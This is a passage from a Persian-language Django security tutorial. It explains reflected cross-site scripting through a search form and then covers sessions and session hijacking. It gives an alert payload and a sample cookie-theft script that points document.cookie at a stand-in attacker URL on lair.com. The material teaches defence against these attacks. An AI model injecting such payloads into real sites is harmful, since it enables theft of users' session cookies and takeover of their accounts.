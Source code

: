<span dir="rtl">کد قبلی یک کلاس **View** است که در صورت دسترسی بدون هیچ پارامتر **GET**، فرم جستجو را نشان می دهد. </span>
اگر فرم جستجو ارسال شود، رشته **جستجو** را دقیقاً همانطور که کاربر در فرم وارد کرده است نشان می دهد.

اکنون، این نمای را در یک مرورگر دارای تاریخ باز کنید (مثلاً IE 8) و عبارت جستجوی زیر را در فرم وارد کنید و آن را ارسال کنید:

```js
<script>alert("pwned")</script>
```


<span dir="rtl">جای تعجب نیست که مرورگر یک جعبه هشدار با پیام شوم - pwned را نشان می دهد. </span>
<pre>
این حمله در مرورگرهای فعلی مانند آخرین کروم با شکست مواجه می‌شود، 
که پیام خطای زیر را در کنسول نشان می‌دهد: از اجرای اسکریپت جاوا اسکریپت خودداری کرد. 
. کد منبع اسکریپت در درخواست یافت شد.
</pre>

اگر نمی‌دانید که یک پیام هشدار ساده چه آسیبی می‌تواند داشته باشد، به یاد داشته باشید که
هر کد جاوا اسکریپت را می‌توان به همان شیوه اجرا کرد. در بدترین حالت، کوکی های
کاربر را می توان با وارد کردن عبارت جستجوی زیر به سایتی که توسط مهاجم کنترل می شود ارسال کرد:

```js
<script>
  var adr = 'http://lair.com/evil.php?stolen=' + escape(document.cookie);
</script>
```

پس از ارسال کوکی‌های شما، مهاجم ممکن است بتواند حمله جدی‌تری انجام دهد.

### چرا کوکی های شما ارزشمند است؟

شاید ارزش درک این را داشته باشد که چرا کوکی ها هدف چندین حمله هستند.
به زبان ساده، دسترسی به کوکی‌ها به مهاجمان اجازه می‌دهد که شما را جعل کنند و
حتی کنترل حساب وب شما را در دست بگیرند.

<span dir="rtl">برای درک دقیق این موضوع، باید مفهوم **sessions** را درک کنید.HTTP بدون تابعیت است </span>
<span dir="rtl">این بدان معناست که هر درخواست HTTP که سرور دریافت می‌کند مستقل است و به درخواست‌هایی که قبل از آن ارائه شده‌اند مربوط نمی‌شود. </span>
جنگو چه یک کاربر ناشناس یا یک کاربر تأیید شده باشد، با مدیریت جلسات، فعالیت های آنها را برای مدت زمان مشخصی پیگیری می کند.

یک جلسه شامل شناسه جلسه در انتهای کلاینت، یعنی مرورگر و یک شی دیکشنری مانند است که در انتهای سرور ذخیره می شود.
شناسه جلسه یک رشته تصادفی 32 نویسه ای است که به عنوان یک کوکی در مرورگر ذخیره می شود. هر بار که یک کاربر از
یک وب سایت درخواستی می کند، تمام کوکی های او، از جمله این شناسه جلسه، همراه با درخواست ارسال می شود.

<span dir="rtl">در انتهای سرور، جنگو یک ذخیره‌سازی جلسه دارد که این شناسه جلسه را به داده‌های جلسه نگاشت می‌کند. به 
طور پیش فرض، جنگو داده های جلسه را در جدول پایگاه داده **django_session** ذخیره می کند. </span>

هنگامی که کاربر با موفقیت وارد سیستم می شود، جلسه متوجه می شود که احراز هویت موفقیت آمیز بوده و
کاربر را پیگیری می کند. بنابراین، کوکی به یک تأیید هویت موقت کاربر برای تراکنش‌های بعدی تبدیل می‌شود.
<span dir="rtl">هر کسی که این کوکی را بدست آورد می تواند از این برنامه وب به عنوان آن کاربر استفاده کند که به آن Session Hijacking می گویند. </span>
